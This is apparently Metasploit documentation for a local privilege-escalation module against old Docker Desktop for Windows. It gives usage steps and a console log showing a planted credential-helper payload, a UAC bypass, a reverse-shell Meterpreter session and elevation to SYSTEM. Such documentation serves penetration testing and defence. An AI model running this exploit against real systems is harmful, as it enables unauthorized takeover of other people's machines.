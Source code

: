 ## Vulnerable Application

  Docker Desktop Community Edition before 2.1.0.1
  https://download.docker.com/win/stable/28905/Docker%20for%20Windows%20Installer.exe

## Verification Steps

  1. Install Docker Desktop Community Edition before 2.1.0.1
  2. Start msfconsole
  3. Get a session with basic privileges
  4. Do: ```use exploit/windows/local/docker_credential_wincred```
  5. Do: ```set SESSION <sess_no>```
  6. Do: ```run```
  7. Using an administrator cmd shell on the target, run ```docker login```
  8. You should get a shell you can elevate with ```getsystem```.

## Scenarios

### Tested on Docker Community Edition 2.0.0.0 running on Windows 10x64 Release 1803

  ```
msf exploit(windows/local/docker_credential_wincred) > show options

Module options (exploit/windows/local/docker_credential_wincred):

   Name         Current Setting                            Required  Description
   ----         ---------------                            --------  -----------
   PROGRAMDATA  C:\ProgramData\DockerDesktop\version-bin\  no        Path to docker version-bin.
   SESSION                                                 yes       The session to run this module on.


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf exploit(windows/local/docker_credential_wincred) > set session 1
session => 1
msf exploit(windows/local/docker_credential_wincred) > check

[*] Docker version 18.09.0, build 4d60db4
[*] The target appears to be vulnerable.
msf exploit(windows/local/docker_credential_wincred) > run

[*] Started reverse TCP handler on 192.168.135.168:4444 
[*] Docker version 18.09.0, build 4d60db4
[*] UAC is Enabled, checking level...
[*] Checking admin status...
[+] Part of Administrators group! Continuing...
[+] UAC is set to Default
[+] BypassUAC can bypass this setting, continuing...
[*] payload_pathname = C:\ProgramData\DockerDesktop\version-bin\\docker-credential-wincred.exe
[*] Making Payload
[*] Uploading Payload to C:\ProgramData\DockerDesktop\version-bin\\docker-credential-wincred.exe
[*] Payload Upload Complete
[*] Waiting for user to attempt to login
[*] Sending stage (180291 bytes) to 192.168.132.125
[*] Meterpreter session 3 opened (192.168.135.168:4444 -> 192.168.132.125:49766) at 2020-04-15 16:32:09 -0500

meterpreter > sysinfo
Computer        : DESKTOP-D1E425Q
OS              : Windows 10 (10.0 Build 17134).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > getuid
Server username: DESKTOP-D1E425Q\msfuser
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
